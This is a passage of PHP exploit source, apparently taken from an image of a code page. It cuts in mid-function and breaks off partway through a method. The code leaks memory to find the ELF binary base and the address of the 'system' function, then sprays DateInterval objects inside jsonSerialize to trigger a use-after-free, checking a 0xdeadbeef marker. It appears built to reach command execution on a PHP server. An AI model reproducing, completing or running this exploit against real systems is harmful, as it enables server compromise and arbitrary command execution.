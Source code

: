 ```php
            return $data_addr + $i * 8;
        }
    }

    public function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = $this->leak2($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    public function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = $this->leak2($addr);
            $f_name = $this->leak2($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return $this->leak2($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    public function jsonSerialize() {
        global $y, $cmd, $spl1, $fake_tbl_off, $n_alloc;

        $contiguous = [];
        for($i = 0; $i < $n_alloc; $i++)
            $contiguous[] = new DateInterval('PT1S');

        $room = [];
        for($i = 0; $i < $n_alloc; $i++)
            $room[] = new Z();

        $_protector = $this->ptr2str(0, 78);

        $this->abc = $this->ptr2str(0, 79);
        $p = new DateInterval('PT1S');

        unset($y[0]);
        unset($p);

        $protector = ".$_protector";

        $x = new DateInterval('PT1S');
        $x->d = 0x2000;
        $x->h = 0xdeadbeef;
        # $this->abc is now of size 0x2000

        if($this->str2ptr($this->abc) != 0xdeadbeef) {
            die('UAF failed.');
        }

        $spl1 = new MySplFixedArray();
        $spl2 = new MySplFixedArray();

```